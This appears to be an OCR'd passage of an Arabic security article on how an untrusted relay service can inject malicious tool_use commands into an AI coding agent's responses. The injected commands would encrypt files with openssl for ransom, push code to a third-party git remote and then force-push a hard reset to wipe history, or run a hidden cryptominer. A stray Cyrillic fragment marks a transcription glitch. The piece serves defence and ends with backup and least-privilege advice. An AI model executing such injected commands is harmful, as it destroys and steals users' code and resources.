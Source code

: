 ### تحليل تسلسل المخاطر

تتشابه عملية سرقة البيانات مع استخراج المعلومات، لكن الهدف في الخطوة الأخيرة هو "الدمار" وليس "الاستخراج".

#### الطريقة الأولى: تشفير الملفات

هذه الطريقة هي متغير لمشكلات الأمان التقليدية في عصر الذكاء الاصطناعي.

1. **إدخال تعليمات التشفير**: تُدخل خدمة الوسيط غير الموثوقة في الاستجابة التي تعود من النموذج سلسلة من تعليمات `tool_use` المدمرة. على سبيل المثال، تعليمات `execute_shell`، محتواها هو التنقل عبر قرص المستخدم، استخدام أدوات مثل `openssl` لتشفير أنواع معينة من الملفات (مثل `.js`, `.py`, `.go`, `.md`)، وحذف الملفات الأصلية.
2. **تنفيذ العميل**: ينفذ منفذ `tool_use` في العميل هذه التعليمات دون أن يشعر المستخدم.
3. **عرض معلومات محددة**: بعد التشفير، يمكن إدخال تعليمات أخيرة لفتح ملف أو عرض معلومات محددة في المحطة الطرفية، والطلب من المستخدم التواصل لاستعادة البيانات.

#### الطريقة الثانية: التحكم في مستودع الكود

هذا هجوم موجه بدقة ضد المطورين، والضرر المحتمل كبير جدًا.

1. **إدخال تعليمات git**: تُدخل خدمة الوسيط غير الموثوقة سلسلة من تعليمات `tool_use` المتعلقة بـ git.
2. **نسخ الكود احتياطيًا**: الخطوة الأولى، إرسال الكود بصمت إلى مستودع خاص للمعتدي. `git remote add backup <third_party_repo_url>`، ثم `git push backup master`.
3. **تدمير الكود**: الخطوة الثانية، تنفيذ عمليات مدمرة. `git reset --hard <a_very_old_commit>` لإرجاع المستودع المحلي إلى حالة قديمة جدًا، ثم `git push origin master --force` لإرساله بشكل قسري إلى المستودع البعيد للمستخدم (مثل GitHub)، مما سيغطي تاريخ الإرسال البعيد تمامًا.
4. **الإجراءات اللاحقة**: سيكتشف المستخدم أن الكود المحلي والبعيد قد اختفى تقريبًا. من خلال معلومات الاتصال المحفوظة مسبقًا (أو ملف معلومات مُ внедر في الكود) سيتواصل المعتدي لإجراء مفاوضات استعادة البيانات.

خطورة هذا الإجراء تكمن في أنه لا يدمر فقط منطقة العمل المحلية، بل قد يدمر أيضًا النسخ الاحتياطية البعيدة، وهو أمر قاتل للمطورين الذين ليس لديهم عادة عمل نسخ احتياطية أخرى.

### كيفية الوقاية

بجانب الإجراءات الوقائية المذكورة سابقًا، فيما يتعلق بسرقة البيانات، نحتاج أيضًا إلى:

* **عمل نسخ احتياطية من البيانات**: إجراء نسخ احتياطية متعددة ومادية للملفات والمستودعات المهمة. هذه هي الخط الدفاعي الأخير ضد أي نوع من مخاطر البيانات.
* **مبدأ أقل الامتيازات**: يجب أن يكون لدى المستخدم الذي يشغل العميل (وخاصة ملحق IDE) أقل امتيازات ممكنة في النظام، لتجنب قدرته على تشفير القرص بأكمله أو تنفيذ أوامر نظامية حساسة.

## مخاطر ناقلات متقدمة أخرى

بجانب استخراج المعلومات وتدمير البيانات مباشرةً، يمكن لخدمة الوسيط غير الموثوقة استخدام موقعها كشخص وسيط لشن عمليات أكثر تقدمًا وإخفاءً.

### الطريقة الثالثة: اختطاف الموارد (Resource Hijacking)

الهدف ليس دائمًا بيانات المستخدم، بل موارده الحاسوبية. هذه مخاطرة طفيلية طويلة المدى.

1. **إدخال تعليمات التعدين**: عندما يرسل المستخدم طلبًا عاديًا، تُدخل جهة التشغيل في الاستجابة التي تعود تعليمات `execute_shell`.
2. **التنفيذ في الخلفية**: سيقوم هذا الأمر بتنزيل برنامج تعدين عملات مشفرة بصمت من خادم المعتدي، وتشغيله في الخلفية بصمت باستخدام `nohup` أو تقنيات مشابهة.
3. **البقاء الخفي طويل المدى**: قد يشعر المستخدم فقط بأن جهاز الكمبيوتر أصبح أبطأ أو أن مروحة الجهاز أصبحت أكثر ضجيجًا، من الصعب اكتشاف العملية في الخلفية مباشرةً. بينما يمكن لمشغل الخدمة الاستفادة المستمرة من موارد وحدة المعالجة المركزية/وحدة معالجة الرسومات للمستخدم.
